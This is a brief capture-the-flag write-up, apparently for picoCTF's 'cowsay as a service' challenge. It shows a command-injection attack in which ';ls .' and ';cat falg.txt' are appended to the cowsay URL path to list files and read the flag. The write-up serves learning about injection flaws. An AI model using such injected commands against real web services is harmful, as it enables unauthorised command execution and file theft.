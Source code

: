 ## Description
Now presenting cowsay as a service

## Solution
It seem the site pass the value received from <message> in url to `cowsay` command of linux:

```https://caas.mars.picoctf.net/cowsay/test
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

And it might be vulnerable to command injection. just checking:
```https://caas.mars.picoctf.net/cowsay/test;%20ls%20.
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

```

yes. simple search for flag and read it:
```https://caas.mars.picoctf.net/cowsay/test;%20cat%20falg.txt
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{XXXXXXX}

```